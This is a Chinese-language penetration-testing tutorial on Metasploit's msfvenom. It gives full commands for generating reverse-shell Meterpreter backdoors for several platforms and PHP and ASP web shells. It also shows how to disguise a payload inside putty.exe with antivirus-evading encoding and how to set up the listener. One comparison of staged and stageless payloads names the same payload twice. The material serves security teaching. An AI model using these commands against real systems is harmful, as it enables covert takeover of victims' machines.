# 网络安全教程：P66：msfvenom介绍 🛡️

在本节课中，我们将学习Metasploit框架中一个至关重要的工具——`msfvenom`。它是生成有效载荷（Payload）的核心，用于创建能够在目标系统上执行的后门程序，从而建立与攻击者之间的连接。

---

## 什么是msfvenom？🤔

`msfvenom`是`msfpayload`和`msfencode`两个工具的组合。`msfpayload`负责生成攻击载荷，而`msfencode`负责对载荷进行编码和加密以绕过杀毒软件或入侵检测系统（IDS）。`msfvenom`将它们集成在一个框架中，专门用于生成后门软件。

**核心功能**：生成一个远控木马，上传到目标主机并运行，攻击机则开启监听等待连接，从而控制目标主机。

---

## 基本参数解析 ⚙️

上一节我们介绍了`msfvenom`的基本概念，本节中我们来看看它的常用参数。对于初学者，无需死记所有参数，通过实践掌握常用选项即可。

以下是`msfvenom`的一些核心参数：

*   **`-p`**：指定要使用的Payload（攻击载荷）。这是最关键的参数。
*   **`-l`**：列出所有可用的Payload、编码器或平台。例如 `msfvenom -l payloads`。
*   **`-e`**：指定编码器（Encoder），用于对Payload进行编码以规避检测。
*   **`-i`**：设置编码次数。例如 `-i 5` 表示对Payload编码5次。
*   **`-f`**：指定输出文件的格式。例如 `-f exe` 输出为Windows可执行文件。
*   **`-a`**：指定目标系统架构。例如 `x86` 或 `x64`。
*   **`--platform`**：指定目标操作系统平台。例如 `windows`、`linux`。
*   **`LHOST`**：监听主机的IP地址（攻击机IP）。
*   **`LPORT`**：监听主机的端口号。

**关于编码的说明**：编码次数越多，理论上绕过杀软的可能性越高，但并非绝对。现代杀毒软件主要依靠特征码识别，单纯增加编码次数效果有限，通常需要结合其他免杀技术。

---



## 生成不同平台的Payload示例 💻

了解了基本参数后，我们来看看如何为不同操作系统生成Payload。

以下是针对Linux、Windows和macOS生成反向TCP连接Payload的命令示例：

*   **Linux (x86)**:
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
    ```
    *   `-p linux/x86/meterpreter/reverse_tcp`: 指定Linux x86架构的Meterpreter反向TCP载荷。
    *   `-f elf`: 输出格式为ELF（Linux可执行文件）。
    *   `> shell.elf`: 将生成的载荷保存为`shell.elf`文件。

*   **Windows (x86)**:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
    ```

*   **macOS**:
    ```bash
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho > shell.macho
    ```

**关键点**：`reverse_tcp`是反向连接，即目标主机主动连接攻击机。这常用于穿透防火墙，因为出站连接（从内网到外网）通常限制较少。

---

## 进阶使用技巧：伪装与监听 🎭



生成一个功能正常的木马只是第一步。为了让木马更具欺骗性，我们需要进行伪装；同时，攻击机需要做好接收连接的准备。



**1. 使用模板进行伪装**
可以使用`-x`参数指定一个正常的可执行文件作为模板，将Payload嵌入其中，使生成的木马看起来像是一个合法程序（如计算器、系统更新程序）。
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -x /path/to/putty.exe -f exe -e x86/shikata_ga_nai > backdoor.exe
```

**2. 开启监听**
生成木马后，必须在攻击机上使用Metasploit的`multi/handler`模块开启监听，等待目标运行木马后连接回来。
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.100
msf6 exploit(multi/handler) > set LPORT 5555
msf6 exploit(multi/handler) > run
```
**注意**：这里设置的`payload`、`LHOST`、`LPORT`必须与生成木马时使用的参数完全一致。

---

## 生成Web脚本Payload 🌐





除了可执行文件，`msfvenom`还能生成各种Web脚本的后门，适用于存在文件上传、文件包含等漏洞的Web应用。

以下是生成PHP和ASP脚本Payload的示例：



*   **PHP**:
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f raw > shell.php
    ```
    *   `-f raw`: 对于PHP脚本，通常使用`raw`格式输出未经处理的原始代码。



*   **ASP**:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f asp > shell.asp
    ```



**使用方法**：将生成的脚本文件（如`shell.php`）通过漏洞上传到目标Web服务器，然后访问该脚本的URL。同时，攻击机运行`multi/handler`模块进行监听，即可获得Meterpreter会话。



---

## 分段与非分段Payload 🔗

在列出Payload时，你可能会注意到类似`windows/meterpreter/reverse_tcp`和`windows/meterpreter/reverse_tcp`的选项。它们的主要区别在于是否“分段”（Staged）。



以下是两者的核心区别：

*   **非分段Payload (Stageless)**:
    *   例如：`windows/meterpreter_reverse_tcp`
    *   **特点**：包含Meterpreter的所有必需部分，体积较大，但功能完整，连接稳定。类似于WebShell中的“大马”。
    *   **适用场景**：网络连接可能不稳定的情况。



*   **分段Payload (Staged)**:
    *   例如：`windows/meterpreter/reverse_tcp`
    *   **特点**：体积很小，只负责建立初始网络连接。完整的Meterpreter功能会在第二阶段传输。类似于WebShell中的“小马”或一句话木马。
    *   **适用场景**：对文件大小有限制（如上传漏洞），且网络环境稳定。

**选择建议**：在穿透防火墙或IDS时，小体积的分段Payload可能更有优势。而在内网渗透或需要稳定会话时，非分段Payload是更好的选择。

---

## 总结 📚

本节课中我们一起学习了Metasploit的强大载荷生成工具`msfvenom`。

*   **核心作用**：它集成了载荷生成和编码功能，用于创建跨平台的后门程序。
*   **使用流程**：通常分为三步：1) 使用`msfvenom`生成针对特定目标的Payload；2) 将Payload通过某种方式（上传、社工等）植入目标；3) 在攻击机使用`exploit/multi/handler`模块设置监听并等待连接。
*   **关键概念**：我们探讨了基本参数、不同平台的Payload生成、使用模板伪装、以及**分段与非分段Payload**的重要区别。理解后者对于在实际渗透测试中选择合适的攻击方式至关重要。



记住，工具的使用重在理解和实践。`msfvenom`的参数无需死记硬背，在需要时查询帮助（`msfvenom -h`）或通过实践积累经验即可。